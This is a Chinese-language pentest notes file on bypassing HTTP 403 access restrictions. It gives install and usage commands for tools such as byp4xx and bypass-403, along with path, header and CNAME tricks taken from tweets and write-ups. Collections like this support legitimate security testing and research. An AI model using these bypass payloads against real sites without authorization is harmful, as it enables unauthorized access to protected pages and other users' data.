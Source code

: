 # 几个工具
## 1、byp4xx

`https://github.com/lobuhi/byp4xx`  <br>
安装： <br>

```shell
git clone https://github.com/lobuhi/byp4xx.git
cd byp4xx
chmod u+x byp4xx.py
./byp4xx.py
or
python3 byp4xx.py
```

或者使用pip安装：<br>

`pip install git+https://github.com/lobuhi/byp4xx.git` <br>
使用方法： <br>

`python3 byp4xx.py <cURL options> <target>`
示例： <br>

`python3 byp4xx.py https://www.google.es/test` <br>
byp4xx还自带了一个不错的字典，当使用默认参数测试完毕后，它会询问你是否使用自带的字典再跑一遍： <br>
![img.png](img.png)


## 2、Bypass-403

`https://github.com/iamj0ker/bypass-403`


安装：

```shell
git clone https://github.com/iamj0ker/bypass-403
cd bypass-403
chmod +x bypass-403.sh
sudo apt install figlet  #依赖安装
```


使用方法：

```shell
/bypass-403.sh https://example.com admin
或
./bypass-403.sh website-here path-here
```


## 3、forbinddenpass

`https://github.com/gotr00t0day/forbiddenpass`

安装：

```shell
git clone https://github.com/gotr00t0day/forbiddenpass.git

cd forbiddenpass

pip3 install -r requirements.txt

python3 forbiddenpass.py -h
```


使用方法：

`forbiddenpass.py [-h] [-p domain.com] [-d filename.txt] [-t site.com]`

示例：


```shell
python3 forbiddenpass.py -d domains.txt

python3 forbiddenpass.py -d domains.txt --path login

python3 forbiddenpass.py -t https://site

python3 forbiddenpass.py -t https://site --path login

```

# 403 tricks
## 403 Bypass tricks
https://twitter.com/mamunwhh/status/1496786769316294659
```
Bypass 403 on /api/v1/user/id

/api/v1/user/id.json
/api/v1/user/id?
/api/v1/user/id/
/api/v2/user/id
/api/v1/user/id&accountdetail
/api/v1/user/yourid&victimid
X-Original-URL: /api/v1/user/id/


```


## trick01
https://systemweakness.com/how-i-bypassed-403-forbidden-domain-using-a-simple-trick-c2d538de04b8

```
dig redacted.com

```
![img_1.png](img_1.png)

要点: 从 `$dig target.com `知道 CNAME 后.....如何获得 200 ....🤔🤔 ====>在浏览器中点击 cname



## trick02
https://twitter.com/remonsec/status/1290354885850886144
```shell
$ http://site.com/wp-admin/install.php > 403
$ http://site.com/wp-admin/install.php/* > 200
```
![img_2.png](img_2.png)

## trick03
https://twitter.com/iam_j0ker/status/1303658167205728256
![img_3.png](img_3.png)


还有一个工具仓库:<br>
https://github.com/yunemse48/403bypasser


## 重要ppt

https://docs.google.com/presentation/d/1ek6DzXKBQd6xUiVNGRT33pMACs8M13CSoYCkgepDKZk/edit#slide=id.gb344e2d586_0_278

已经下载了!!!

## tricks04
https://twitter.com/h4x0r_dz/status/1317218511937261570
![img_4.png](img_4.png)

![img_5.png](img_5.png)

![img_6.png](img_6.png)


## tricks05
https://github.com/Dheerajmadhukar/4-ZERO-3

## 一篇总结性文章

https://mp.weixin.qq.com/s/N32dGX3a6OYpaQa4a_EDrQ


## tip06
![img_7.png](img_7.png)

`/;/`;`/.;/`;`//;//`;

例如:`/.;/example.so`

